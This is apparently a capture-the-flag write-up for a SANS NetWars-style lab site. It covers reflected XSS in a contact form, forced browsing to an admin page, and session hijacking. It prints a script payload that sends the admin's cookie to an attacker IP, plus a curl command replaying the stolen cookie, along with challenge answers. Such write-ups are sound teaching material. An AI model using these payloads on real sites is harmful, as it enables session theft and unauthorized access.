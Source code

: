 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked Contact in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-2](https://github.com/user-attachments/assets/b6e69b17-d014-40da-a89b-01f74dc2b186)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/b1380dc0-ccd7-44f8-8536-92d8d0bebf16)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/53da4c88-831c-44b2-9c21-4b9dd8284073)

Then I tested for an XSS vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/87c7fd9d-fc96-4990-88aa-c63c96e4a939)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/db72d66c-e486-42c8-aedb-cd9ef4e9e16d)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, admin pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the admin page with a forced browsing attack. From the question, we know the page name is five characters. So I typed issplaylist.com/admin.html in my browser. 
![Forced Browsing-2](https://github.com/user-attachments/assets/17690325-9e0f-4325-b4b2-1b41ab424daf)

# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5
* Answer - wwwlogincookie

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. In Lab 4.4 from the course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/54c44f79-0f51-4ca6-b5c6-1a05b60ffecf)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5
* Answer - NetWars{AdminAccessIsBest}

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran the following command: 
* curl -b wwwlogincookie=0f186582606b62965d90e772e76a8a5620b11af9 "http://www.issplaylist.com/admin.html"

This returned the admin page output. Scroll down to see the flag. 
![Unauthorized Access-2](https://github.com/user-attachments/assets/922e6443-10d2-454e-bd81-05d523dab0ac)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/391d29fd-1221-4379-9ae1-4cefed9fa3a1)
